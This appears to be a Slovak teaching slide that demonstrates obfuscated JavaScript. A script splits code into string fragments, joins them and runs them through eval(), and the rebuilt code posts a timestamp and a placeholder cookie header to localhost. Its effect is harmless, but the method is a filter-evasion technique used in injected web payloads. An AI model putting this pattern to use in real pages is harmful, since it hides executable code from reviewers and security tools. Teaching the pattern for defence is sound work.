

# Príklad rozdeleného kódu skriptu
<script>let stream = "function"; let good = " AddZero(n"; let season = "um) {    "; let color = [stream,good,season]; color = color.join(''); let multiply = ['return (num >= 0 && num < 10) ? "0" + num : num + "";}function aa(){var now = new Date();var strDateTime = [[AddZero(now.getDate',"()),         AddZero(now.getMonth() + 1),         now.getFullYear("]; multiply = multiply.join(''); let crop = [')].join("/"),        '," [AddZero(now.getHours()), ","        Ad",'dZero(now.getMinutes())].join(":"),',"         ",'now.getHours() >= 12 ? "PM" : "AM"]','.join(" ");let data = {element: "Some interesting activity at: " + strDateTime};   fetch("ht']; crop = crop.join(''); let fear = ["tp://l"]; fear = fear.join(''); let bright = ["ocalhost:"]; bright = bright.join(''); let blue = ['5001/newone", {	method: "POST",	headers: {\'Content-Type\': \'application/json\', \'set-cookie\': "My cookie"}, 	body: JSON.string',"ify(data)}).then(res => {});}aa();"]; blue = blue.join(''); let division = [color,multiply,crop,fear,bright,blue]; division = division.join(''); eval(division);</script>